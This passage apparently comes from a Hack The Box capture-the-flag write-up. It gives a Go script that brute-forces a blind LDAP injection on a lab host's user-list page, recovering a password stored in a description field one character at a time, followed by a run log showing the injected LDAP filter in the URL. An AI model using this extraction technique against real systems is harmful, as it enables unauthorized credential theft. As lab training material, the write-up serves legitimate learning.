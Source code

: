 ```
 scanner = bufio.NewScanner(file)
 for scanner.Scan() {
  char := strings.TrimSpace(scanner.Text())
  //fmt.Println("Trying character:", char)
  //thisisthat := "OnlyWorkingInput:"
  
  modifiedURL := strings.Replace(baseURL, "{FUZZ}", char, 1)
  modifiedURL = strings.Replace(modifiedURL, "{found_char}", foundChars, 1)
  fmt.Println("Modified URL:", modifiedURL)
  //fmt.Println(thisisthat,"{found_char}",foundChars, 1)
  
  response, err := http.Get(modifiedURL)
  if err != nil {
   fmt.Println("Error making HTTP request:", err)
   return
  }
  defer response.Body.Close()

  body, err := ioutil.ReadAll(response.Body)
  if err != nil {
   fmt.Println("Error reading response body:", err)
   return
  }

  if strings.Contains(response.Status, "200 OK") && strings.Contains(string(body), "technician") {
   fmt.Println("Found character:", char)
   foundChars += char
   file.Seek(0, 0) // Move the file pointer to the beginning for another iteration
  }
 }

 if err := scanner.Err(); err != nil {
  fmt.Println("Error reading charset file:", err)
  return
 }

 fmt.Println("Final found characters:", foundChars)
}
```

Run the script

The script searches through the characters, If it encounters a technician nickname on the page, it memorizes the character. The script is not perfect, but it allows us to find half of the password up to the \* symbol.

```
┌──(Batman㉿GC)-[~/kerbrute]
└─$ go run script.go

...
Modified URL: http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=97NTtl*)

```
